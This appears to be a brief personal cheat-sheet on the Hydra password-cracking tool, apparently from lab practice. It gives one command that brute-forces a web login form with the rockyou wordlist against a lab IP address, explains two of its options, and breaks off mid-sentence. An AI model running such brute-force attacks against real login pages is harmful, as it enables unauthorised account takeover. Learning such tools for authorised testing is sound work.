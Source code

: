 # Hydra

> Shahrukh Tramboo | February 13th, 2022

--------------------------------------

**Commands**

1.	form-post-data:
```bash
hydra -l amdin -P /usr/share/wordlists/rockyou.txt 10.10.56.204 http-post-form <request-url with all params:params:Login Failed> -t 64
```
-t → Number of tasks that can run in parallel.

Login Failed -> When someone enters wrong credentials

This requires three arguments separated by a colon which may not be null:

